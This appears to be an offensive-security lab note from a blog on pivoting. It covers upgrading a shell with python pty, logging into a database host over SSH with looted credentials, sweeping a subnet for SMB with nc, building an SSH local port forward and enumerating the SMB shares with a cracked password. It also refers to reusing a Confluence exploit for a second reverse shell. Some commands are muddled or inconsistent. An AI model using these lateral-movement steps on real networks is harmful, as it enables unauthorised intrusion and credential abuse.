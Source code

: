 ```yaml
---
layout: post
title: Local Port Forwarding
titledate: 09/22/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "smbclient"]
---
```


#### local port forwarding

in the case we cannot run socat we can create a connection that goes

Kali -> target1 -> DMZpsqltarget -> newtarget

assuming we have python3 installed - from our target1 machine we can use python to create a connection to the DMZpsqltarget 2 machine

    $ python3 -c 'import pty; pty.spawn("/bin/bash")'

    $ ssh database_admin@10.12.1.1

now we log into the psql machine via ssh with the credentials that we discovered previously from the psql database

we can see what machines are connected to it with 

    $ ip addr

and discover an additional subnet , with nc available we can do some ping sweeps

    $ for i in $(seq 1 254); do nc -zv -w 1 172.16.1.$i 445; done

if we discover a host that is up we can setup a local port forward to relay connections

with openssl -l - IPADDRESS:PORT:IPADDRESS:PORT

    target1: ssh -N -L 0.0.0.0:4455(target1/confluence machine):172.16.1.217:445(discovered smb machine) database_admin@10.4.50.215(psql machine)

    ssh -N -L 0.0.0.0:4455:172.16.241.217:4242 database_admin@10.4.241.215

here we create an ssh connection with -N to have no shell listening on all interfaces of our target1 machine and passing all packets through our psql system

so now we need another reverse shell on another listening port to our target1/confluence machine so that we can interact with it

to get this reverse shell we just modify the original confluence exploit to use a different port

once we have this shell we can confirm the ssh port is open and listening 

    target1: ss -ntplu

now we can enumerate the smb machine that is only discovered through the psql machine

    $ smbclient -p 4455 -L //192.168.1.1/ -U hr_admin --password=Welcome1234

above we provide credentials we found when cracking the psql database

